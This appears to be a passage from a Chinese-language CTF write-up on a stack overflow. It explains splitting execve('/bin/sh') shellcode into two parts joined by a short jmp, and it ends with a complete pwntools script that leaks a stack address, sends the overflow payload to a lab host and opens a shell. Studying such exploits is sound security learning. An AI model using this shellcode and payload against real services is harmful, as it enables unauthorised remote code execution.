

通过调试可以大致看到，由于shellcode执行过程中的push，最后一部分会在执行完push rdi之后被覆盖从而导致shellcode失效。因此我们要么得选一个更短的shellcode，要么就对其进行改造。鉴于shellcode不好找，我们还是选择改造。
首先我们会发现在shellcode执行过程中只有返回地址和上面的24个字节会被push进栈的寄存器值修改，而栈溢出最多可以向栈中写0x40=64个字节。结合对这个题目的分析可知在返回地址之后还有16个字节的空间可写。根据这四张图显示出来的结果，push rdi执行后下一条指令就会被修改，因此我们可以考虑把shellcode在push rax和push rdi之间分拆成两段，此时push rdi之后的shellcode片段为8个字节，小于16字节，可以容纳。



接下来我们需要考虑怎么把这两段代码连在一起执行。我们知道，可以打破汇编代码执行的连续性的指令就那么几种，call，ret和跳转。前两条指令都会影响到寄存器和栈的状态，因此我们只能选择使用跳转中的无条件跳转jmp. 我们可以去查阅前面提到过的Intel开发者手册或其他资料找到jmp对应的字节码，可以借鉴程序中已存在的jmp指令：



从图中可以看出jmp short locret_400B34的字节码是EB 05。显然，jmp短跳转（事实上jmp的跳转有好几种）的字节码是EB。至于为什么距离是05而不是0x34-0x2D=0x07，是因为距离是从jmp的下一条指令开始计算的。因此，我们以此类推可得我们的两段shellcode之间跳转距离应为0x18，所以添加在第一段shellcode后面的字节为\xeb\x18，添加两个字节也刚好避免第一段shellcode的内容被rdi的值覆盖。



所以正确的脚本如下:

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *

  context.update(arch = 'amd64', os = 'linux', timeout = 1)

  io = remote('172.17.0.3', 10001)
  #原始shellcode
  #shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

  #xor rdx, rdx
  #mov rbx, 0x68732f6e69622f2f
  #shr rbx, 0x8
  #push rbx
  #mov rdi, rsp
  #push rax
  #push rdi
  #mov rsi, rsp
  #mov al, 0x3b
  #syscall

  shellcode1 = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50"
  #第一部分shellcode
  #xor rdx, rdx
  #mov rbx, 0x68732f6e69622f2f
  #shr rbx, 0x8
  #push rbx
  #mov rdi, rsp
  #push rax

  shellcode1 += "\xeb\x18"
  #jmp short $+18h

  shellcode2 = "\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
  #第二部分shellcode
  #push rdi
  #mov rsi, rsp
  #mov al, 0x3b
  #syscall

  print io.recvuntil("Location:")
  shellcode_address_at_stack = int(io.recv()[0:14], 16)
  log.info("Leak stack address = %x", shellcode_address_at_stack)

  payload = ""
  payload += shellcode1
  payload += "\x90"*(0x28-len(shellcode1))
  payload += p64(shellcode_address_at_stack)
  payload += shellcode2

  io.send(payload)
  io.interactive()
```
